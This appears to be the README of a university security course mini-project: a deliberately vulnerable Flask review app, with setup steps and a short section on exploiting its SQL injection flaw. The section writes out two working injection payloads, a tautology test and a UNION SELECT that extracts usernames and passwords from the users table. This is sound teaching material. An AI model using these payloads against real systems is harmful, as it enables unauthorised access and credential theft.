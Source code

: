 # INF8602_project
INF8602 mini-projet

## Setup

### Install the required packages
```bash
pip install flask sqlite3
``` 

### Populate the database
```bash
python populate_db.py
```

### Run the Flask app
```bash
python app.py
```
### [Access the app](http://127.0.0.1:5000)


## Exploit SQL injection

Test the SQL injection in search bar, if it returns all reviews, it means the SQL injection is successful.
```sql
' OR 1=1 --
```

Exploit the SQL injection to get users:
```sql
a%' UNION SELECT NULL AS id, 'leaked' AS user, username AS title, password AS comment, 0.0 AS rating FROM users --
```



![alt text](image.png)